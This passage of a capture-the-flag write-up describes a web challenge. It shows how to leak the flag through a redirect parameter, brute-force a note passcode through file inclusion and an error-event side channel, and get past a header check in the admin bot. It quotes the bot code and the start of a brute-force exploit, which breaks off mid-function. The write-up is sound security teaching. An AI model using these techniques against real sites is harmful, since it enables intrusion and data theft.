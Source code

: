 So we give it the passcode, noteId and an optional ?next parameter. If we know the passcode for the noteId, we can just use ?next to exfiltrate the flag to our server, no XSS required. As we can see, the note is saved at `notes/${noteId}/${md5(passCode).substring(10)}`. So we can bruteforce the passCode locally on the bot using the LFI and [https://xsleaks.dev/docs/attacks/error-events/](https://xsleaks.dev/docs/attacks/error-events/).

But, even after we get the passcode, we still need to bypass the first line `if (!req.headers['x-ctf-from']) return res.redirect('/');`. 

If we check the bot code, we can find this:
```js
page = await browser.newPage();
let requestCount = 0;
await page.setRequestInterception(true);
page.on('request', (request) => {
  requestCount++;
  let pageURL = page.url();
  if (!request.isNavigationRequest() || (pageURL !== 'about:blank' && pageURL !== request.url()) || requestCount !== 1) {
      request.continue();
      return;
  }
  const headers = request.headers();
  headers['X-CTF-From'] = 'HeadlessChrome';
  request.continue({
      headers
  });
});
await page.goto(url);
```

So basically, only the first URL that the bot visits will have the `X-CTF-From` header set to `HeadlessChrome`.

The plan is as follows:
1. Get the note ID of the flag
2. Bruteforce the passcode locally on the bot
3. Send the bot to the `/read` endpoint with the passcode and note ID
4. Get the flag

Qyn developed this cool exploit for bruteforcing the passCode on the bot:
```js
function doStuff() {

    function getMD5First10(inputString) {
        var hash = CryptoJS.MD5(inputString);
        return hash.toString(CryptoJS.enc.Hex).substring(10);
    }

    function product(iterables, repeat) {
    var argv = Array.prototype.slice.call(arguments), argc = argv.length;
    if (argc === 2 && !isNaN(argv[argc - 1])) {
        var copies = [];
        for (var i = 0; i < argv[argc - 1]; i++) {
            copies.push(argv[0].slice()); // Clone
        }
        argv = copies;
    }
    return argv.reduce(function tl(accumulator, value) {
        var tmp = [];
        accumulator.forEach(function(a0) {
        value.forEach(function(a1) {
            tmp.push(a0.concat(a1));
        });
        });
        return tmp;
```